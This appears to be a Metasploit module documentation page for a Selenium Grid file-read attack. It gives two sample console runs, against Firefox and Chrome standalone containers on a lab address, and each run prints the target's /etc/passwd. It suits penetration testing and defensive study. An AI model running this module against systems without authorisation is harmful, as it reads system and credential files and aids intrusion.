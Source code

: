 ### selenium/standalone-firefox:4.27.0 installed with Docker on Ubuntu 24.04
```
msf6 auxiliary(gather/selenium_file_read) > run rhost=192.168.56.16 rport=4448
[*] Running module against 192.168.56.16
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Selenium Grid version 4.x detected and ready.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
seluser:x:1200:1201::/home/seluser:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
pulse:x:101:102:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin

[*] Auxiliary module execution completed
```

### selenium/standalone-chrome:4.27.0 installed with Docker on Ubuntu 24.04
```
msf6 auxiliary(gather/selenium_file_read) > run rhost=192.168.56.16 rport=4449 browser=chrome
[*] Running module against 192.168.56.16
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Selenium Grid version 4.x detected and ready.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
seluser:x:1200:1201::/home/seluser:/bin/bash
```